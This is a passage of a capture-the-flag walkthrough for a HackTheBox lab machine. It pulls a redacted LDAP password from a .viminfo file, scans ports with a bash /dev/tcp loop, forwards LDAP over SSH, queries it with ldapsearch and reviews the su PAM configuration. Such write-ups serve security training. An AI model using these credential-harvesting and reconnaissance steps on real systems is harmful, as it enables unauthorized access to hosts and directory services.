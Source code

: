 ```
""1	LINE	0
	BINDPW <SNIP>
|3,1,1,1,1,0,1587670528,"BINDPW <SNIP>"

# File marks:
'0  3  0  ~/.ldaprc
|4,48,3,0,1587670530,"~/.ldaprc"

# Jumplist (newest first):
-'  3  0  ~/.ldaprc
|4,39,3,0,1587670530,"~/.ldaprc"
-'  1  0  ~/.ldaprc
|4,39,1,0,1587670527,"~/.ldaprc"

# History of marks within files (newest to oldest):

> ~/.ldaprc
	*	1587670529	0
	"	3	0
	.	4	0
	+	4	0

```
- There was a word which looked like a password so I redacted that particular data and gave you the contents
- Usually the LDAP listens on port 389. We can do a quick bash scan to confirm that
```bash
for port in {1..65535}; do echo > /dev/tcp/172.20.0.10/$port && echo "$port open"; done 2>/dev/null
```
- Actually there is another port open which is `639` along with `389`
- First lemme forward the port 389 to my system.
```bash
ssh -L 389:172.20.0.10:389 lynik-admin@travel.htb
```
- The password from `.viminfo` actually worked here
```bash
ldapsearch -H ldap://127.0.0.1  -w <SNIP> -b "DC=travel,DC=htb" -D 'CN=lynik-admin,DC=travel,dc=htb'
```
![Pasted image 20250228170736.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228170736.png?raw=true)
- This user actually a admin to LDAP which will help a lot
- The PAM configuration for su reveals something. Location of the file: `/etc/pam.d/su`
```
#
# The PAM configuration file for the Shadow `su' service
#

# This allows root to su without passwords (normal operation)
auth       sufficient pam_rootok.so

# Uncomment this to force users to be a member of group root
# before they can use `su'. You can also add "group=foo"
# to the end of this line if you want to use a group other
# than the default "root" (but this may have side effect of
# denying "root" user, unless she's a member of "foo" or explicitly
# permitted earlier by e.g. "sufficient pam_rootok.so").
# (Replaces the `SU_WHEEL_ONLY' option from login.defs)
auth       required   pam_wheel.so

# Uncomment this if you want wheel members to be able to
# su without a password.
# auth       sufficient pam_wheel.so trust

# Uncomment this if you want members of a specific group to not
```